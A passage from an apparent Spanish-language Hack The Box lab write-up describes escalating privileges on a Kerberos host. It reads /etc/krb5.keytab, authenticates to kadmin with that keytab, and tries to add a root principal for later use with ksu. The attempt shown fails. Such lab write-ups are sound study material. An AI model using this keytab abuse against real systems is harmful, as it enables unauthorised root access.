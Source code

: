* Tons, debemos agregarle el `dominio` (realm) y el usuario (`root`, para despues usar el comando `ksu` y obtener una sesión como él, ya que será el <<principal>>).

Entonces, si jugamos con `kadmin` como comando nos muestra:

```bash
[admin@srv01 ~]$ kadmin 
Couldn't open log file /var/log/kadmind.log: Permission denied
Authenticating as principal admin/admin@REALCORP.HTB with password.
kadmin: Client 'admin/admin@REALCORP.HTB' not found in Kerberos database while initializing kadmin interface
```

Vale, nuestro usuario no puede usarlo, pero recordemos el archivo `.keytab`, usémoslo y probemos con sus usuarios:

```bash
[admin@srv01 ~]$ klist -k /etc/krb5.keytab | sort -u
---- --------------------------------------------------------------------------
2 host/srv01.realcorp.htb@REALCORP.HTB
2 kadmin/admin@REALCORP.HTB
2 kadmin/changepw@REALCORP.HTB
Keytab name: FILE:/etc/krb5.keytab
KVNO Principal
```

```bash
[admin@srv01 ~]$ kadmin -h
kadmin: invalid option -- 'h'
Usage: kadmin [-r realm] [-p principal] [-q query] [clnt|local args]
      [command args...]
clnt args: [-s admin_server[:port]] [[-c ccache]|[-k [-t keytab]]]|[-n]
local args: [-x db_args]* [-d dbname] [-e "enc:salt ..."] [-m]where,
[-x db_args]* - any number of database specific arguments.
                Look at each database documentation for supported arguments
```

```bash
[admin@srv01 ~]$ kadmin -kt /etc/krb5.keytab
Couldn't open log file /var/log/kadmind.log: Permission denied
Authenticating as principal host/srv01.realcorp.htb@REALCORP.HTB with keytab /etc/krb5.keytab.
kadmin:  
```

Bien, tenemos una "Shell" dentro de `kadmin` para configurar lo que necesitemos yy estamos "autenticados" como principal (quizás ya podemos relacionar el <<target principal name>>) `host/srv01.realcorp.htb@REALCORP.HTB`.

Intentemos ahora si agregar el nuevo <<target principal name>> según lo que encontramos (como queremos que nuestro principal sea `root`, asi mismo lo indicaremos):

```bash
kadmin:  addprinc root@REALCORP.HTB
No policy specified for root@REALCORP.HTB; defaulting to no policy
Enter password for principal "root@REALCORP.HTB": 
Re-enter password for principal "root@REALCORP.HTB": 
add_principal: Operation requires ``add'' privilege while creating "root@REALCORP.HTB".
kadmin:  
```
